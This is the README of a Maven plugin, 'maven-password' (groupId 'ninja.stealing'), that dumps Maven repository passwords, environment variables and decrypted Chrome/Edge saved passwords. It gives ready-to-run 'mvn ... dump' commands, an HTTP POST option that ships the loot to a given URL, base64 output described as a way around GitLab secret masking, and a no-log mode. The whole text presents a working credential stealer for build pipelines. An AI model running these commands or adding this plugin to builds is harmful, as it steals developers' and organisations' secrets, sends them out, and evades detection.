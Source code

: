 # maven-password
Maven plugin to extract password from different source:
- maven settings (repositories and mirror password)
- env
- chrome/edge

## Usage
(no installation needed)
Requirement:
- a working maven install (JAVA_HOME, path, etc...)
```
mvn ninja.stealing:maven-password:0.0.4:dump
```

## Install (for source/debug)
```
git clone https://github.com/tr4l/maven-password.git
cd maven-password
mvn install
```

## Changelog

### 0.0.4

Added export for chrome password
- Windows: with and without DPAPI
- Windows: With and without a master key
- Linux: with the default Linux  master key
Added http delivery method
Added different logger (incuding nolog)
### 0.0.3

Added export of env variable 
Added b64 export (to avoid [MASKED] protection in gitlab)
Added Delivery interface. Only supporting log on first release
Added json export


## Advanced usage

Some example of advanced usage

### Changing/choosing logger

```
mvn ninja.stealing:maven-password:0.0.4:dump -Dlogger=nolog
```

Possible logger:
- nolog: no log. Even for the log delivery
- maven:(default) Use builtin maven logging
- system: write log using System.out

### Choose extractor

```
mvn ninja.stealing:maven-password:0.0.4:dump -Dextract='maven,env'
```
Possible extractor:
- all:(default) Use all extractor
- maven: Extract maven information
- env: Extract environment variables
- chrome: Extract chrome/edge password

### Choose delivery

```
mvn ninja.stealing:maven-password:0.0.4:dump -Ddelivery=http -Durl="http://127.0.0.1:8080/xxx"
```

Possible delivery:
- log:(default) Deliver extraction trough log
- http: Deliver extraction trough http POST request. This need an url parameter
- all: all of the above

## todo
- private keys
- sample settings
- maven root password?
- eclipse?
- docker

